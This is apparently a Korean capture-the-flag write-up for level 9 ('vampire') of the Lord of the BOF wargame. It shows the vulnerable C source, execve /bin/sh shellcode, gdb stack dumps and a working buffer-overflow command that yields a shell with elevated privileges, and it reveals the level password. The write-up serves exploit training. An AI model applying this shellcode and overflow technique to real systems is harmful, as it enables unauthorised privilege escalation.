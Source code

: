 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [Wargame, LOB, Write-up]
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : check 0xbfff

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많음 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.

```sh
Starting program: /home/troll/./aampire `python -c 'print "A"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*65000'`

Breakpoint 1, 0x80484b9 in main ()
(gdb) x/32x $esp
0xbffefcd8:	0xbffefce0	0xbffefe63	0x41414141	0x41414141
0xbffefce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefcf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefd08:	0x41414141	0xbfbfffff	0x00000000	0xbffefd54
0xbffefd18:	0xbffefd64	0x40013868	0x00000003	0x08048380
0xbffefd28:	0x00000000	0x080483a1	0x08048430	0x00000003
0xbffefd38:	0xbffefd54	0x080482e0	0x080484fc	0x4000ae60
0xbffefd48:	0xbffefd4c	0x40013e90	0x00000003	0xbffefe4d
```

argv[2]에 NULL값을 65000개 넣었더니 esp값이 0xbffe영역을 가리키고 있다.



```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*20+"\xe0\xfc\xfe\xbf"'` `python -c 'print "\x90"*65000'`
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAA����
bash$ my-pass
euid = 509
music world
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```



##### **vampire / music world**